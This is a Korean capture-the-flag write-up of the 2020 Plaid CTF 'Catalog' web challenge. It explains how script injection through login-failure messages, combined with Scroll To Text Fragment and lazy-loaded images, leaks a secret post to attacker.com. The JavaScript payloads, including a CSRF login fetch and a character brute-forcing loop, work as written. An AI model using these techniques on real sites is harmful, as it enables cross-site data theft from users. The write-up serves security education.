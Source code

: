```yaml
---
layout: post
title:  "2020 Plaid CTF Catalog"
author: "iwkang@raoncorp.com"
comments: true
tags: [ctf, write-up]
---
```


# 2020 Plaid CTF Catalog

> 2020.04
라온화이트햇 핵심연구팀 강인욱 (iwkang@raoncorp.com)

2020 Plaid CTF에 출제된 문제중 0 솔버였던 흥미로운 문제이다.

문제 출제자 : [https://twitter.com/thebluepichu](https://twitter.com/thebluepichu)

이 문제에 처음 접속 하면 아래와 같이 회원가입, 로그인, 로그아웃 글 작성을 하는 기능이 있으며, 로그인시 관련된 정보(BAM! ~~~~)가 상단에 출력된다.

![/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png](/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png)

CSP를 확인해보면 아래와 같다.

```jsx
Content-Security-Policy: default-src 'nonce-xxxxx'; img-src *; font-src 'self' fonts.gstatic.com; frame-src https://www.google.com/recaptcha/
```

nonce가 활성화되어 있으며 스크립트를 삽입하더라도 코드 실행을 할 수 없습니다. 한가지 주목할 점은 img 태그의 경로를 외부 링크로 설정할 수 있다는 점이다.

문제의 목적은 문제 출제자가 작성한 id=3의 게시글에서 플래그를 가져와야 한다. 플래그 포맷은 다음과 같다.

```jsx
Flag format : /^PCTF\{[A-Z0-9_]+\}$/ 
```

플래그 포맷을 주었다는 점에서 어떠한 작업을 이용해 브루트 포싱으로 플래그를 "검색"해서 읽어야 한다는 것을 알 수 있다.

공격 시나리오를 예상해보면 다음과 같다.

1. 글을 작성하여 봇이 글을 읽게한다.
2. id=3 게시글에 접근하여 어떠한 방법을 통해 이미지 지연 로딩(loading=lazy)을 활용하여 플래그를 유추한다.

대회 당시에는 "어떠한 방법"을 찾을 수 없었지만 Chrome 80 부터 Scroll To Text Fragment가 가능하다고 한다.

[https://www.chromestatus.com/feature/4733392803332096](https://www.chromestatus.com/feature/4733392803332096)

Scroll To Text Fragment은 아래와 같이 사용 가능하다. 이 기능을 이용하기 위해선 사용자 제스처(탭, 클릭)가 필요하다. 출제자는 uBlock Origin 플러그인이 활성화되어 있을 경우를 가정했다.

 

STTF 보안 이슈

```jsx
https://docs.google.com/document/d/1YHcl1-vE_ZnZ0kL2almeikAj2gkwCq8_5xwIae7PVik/edit#heading=h.uoiwg23pt0tx
```

사용법

```jsx
https://en.wikipedia.org/wiki/Cat#:~:text=On
```

이 기능을 사용하면 문서 내용중 "On"이라는 글자가 있는 곳으로 스크롤 된다. 

그렇다면, 이 기능을 사용하여 플래그를 읽으려면 id=3 게시물에 스크립트가 삽입이 되어야한다.

스크립트 삽입은 로그인시 상단에 표시되는 아이디로 가능합니다. 로그인을 실패해도 상단에 메세지가 뜨기 때문에 스크립트 삽입이 가능해진다.

![/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png](/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png)

아래와 같이 유저이름에 스크립트를 삽입한 후 id=3로 이동시키면 상단에 스크립트가 삽입된다.

```jsx
<script>
fetch("http://catalog.pwni.ng/user.php", {
	method: "POST",
	mode: "no-cors",
	credentials: "include",
	headers: {
		"content-type": "application/x-www-form-urlencoded"
	},
	body: "username="+encodeURIComponent("<myscript>test code</myscript>")+"&password=hello&action=login"
}).then(() => {
	window.location = "http://catalog.pwni.ng/issue.php?id=3";
});
</script>
```

이제 단서들을 모아서 공격 시나리오를 재구성 하면 아래와 같다.

1. 관리자가 ublock origin 플러그인을 사용중인 상태에서 게시글을 클릭한다.
2. meta tag를 이용해 attacker.com으로 이동 시킨다.
3. attacker.com에서 로그인 요청을 발생시켜 id=3 게시물 상단에 스크립트를 삽입한다.
4. 스크립트로 meta tag를 이용해 Scroll To Text Fragment를 발생시킨다.
5. 이미지 지연 로딩(<img src="http://attacker.com/img" loading="lazy">)을 이용해 플래그가 검색될 경우 attacker.com의 이미지를 로드하도록 한다.
6. 이미지가 로딩되면 검색이 되었다는 뜻이고 로딩이 안되면 검색이 안되었다는 뜻이다.

예시 코드

```jsx
<script>

alphabet = `}0123456789ABDEFGHIJKLMNOPQRSTUVWXYZ_`;
payload  = "";

content = "~~~~~~<h1></h1>".repeat(500)+"<img src="http://attacker.com/img" loading="lazy" />~~~~~";

for (let letter of alphabet) {
    payload += `text=T-,F,{,-${letter}%26`;
}
payload = "#:~:" + payload.substring(0, payload.length - 3);

fetch("http://catalog.pwni.ng/user.php", {
	method: "POST",
	mode: "no-cors",
	credentials: "include",
	headers: {
		"content-type": "application/x-www-form-urlencoded"
	},
	body: "username="+encodeURIComponent(content)+"&password=hello&action=login"
}).then(() => {
	window.location = "http://catalog.pwni.ng/issue.php?id=3#:~:"+payload;
});
</script>
```